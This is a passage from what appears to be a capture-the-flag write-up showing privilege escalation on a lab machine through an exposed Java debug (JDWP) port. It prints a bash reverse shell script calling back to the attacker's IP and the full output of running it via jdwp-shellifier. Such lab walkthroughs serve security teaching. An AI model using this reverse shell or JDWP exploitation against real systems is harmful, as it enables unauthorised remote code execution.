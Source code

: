 Now I can visit `http://localhost:88` and see the default Tomcat page:

![image-20191111151713468](https://0xdfimages.gitlab.io/img/image-20191111151713468.png)

### jdb

I can use `jdb` to connect to the debug interface. I’ll forward my local post 223 (arbitrary choice on my part) to 8000 on AI over SSH the same way as above, and then connect:

```

root@kali# jdb -attach localhost:223
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
>

```

[This article from IOActive](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/) is a really good run down of how JDWP works, and how to exploit it.

There’s a lot of things I could try here, but none worked really well.

### Shell

There’s a script that I can use from GitHub, [jwdp-shellifier](https://github.com/IOActive/jdwp-shellifier). To keep the process simple, I’ll write a shell script in `/dev/shm/`:

```

alexa@AI:~$ cat /dev/shm/.df.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1

```

Now I’ll start a listener, and run the `jwdp-shellifier`:

```

root@kali# python /opt/jdwp-shellifier/jdwp-shellifier.py -t 127.0.0.1 -p 223 --cmd '/dev/shm/.df.sh'
[+] Targeting '127.0.0.1:223'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
[+] Found Runtime class: id=a9e
[+] Found Runtime.getRuntime(): id=7fa928023910
[+] Created break event id=2
[+] Waiting for an event on 'java.net.ServerSocket.accept'
[+] Received matching event from thread 0x1
[+] Selected payload '/dev/shm/.df.sh'
[+] Command string object created id:b43
[+] Runtime.getRuntime() returned context id:0xb44
[+] found Runtime.exec(): id=7fa928023948
[+] Runtime.exec() successful, retId=b45
[!] Command successfully executed

```
